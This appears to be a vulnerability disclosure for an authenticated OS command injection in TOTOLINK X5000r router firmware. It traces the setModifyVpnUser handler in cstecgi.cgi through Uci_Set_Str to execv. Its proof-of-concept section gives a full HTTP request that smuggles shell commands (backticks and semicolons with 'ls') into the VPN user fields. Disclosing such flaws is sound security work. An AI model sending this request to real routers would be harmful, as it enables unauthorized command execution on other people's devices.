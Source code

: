 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setModifyVpnUser`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setModifyVpnUser` (at 0x41053C) of binary /cgi-bin/cstecgi.cgi. The parameter `authenticate`,`username`,`password` are passed to 'Uci_set_str' without any check. 
![setModifiedVpnUser](image.png)
Uci_Set_Str passes the parameter `authenticate`,`username` and `password` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 188
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setModifyVpnUser", "idx": "wzqwzqwzq", "authenticate": ";`wzq`", "username": ";ls'", "password": "`ls`", "accessLimit": "wzqwzqwzq", "comment": "`ls`", "ipaddr": "wzqwzqwzq"}
```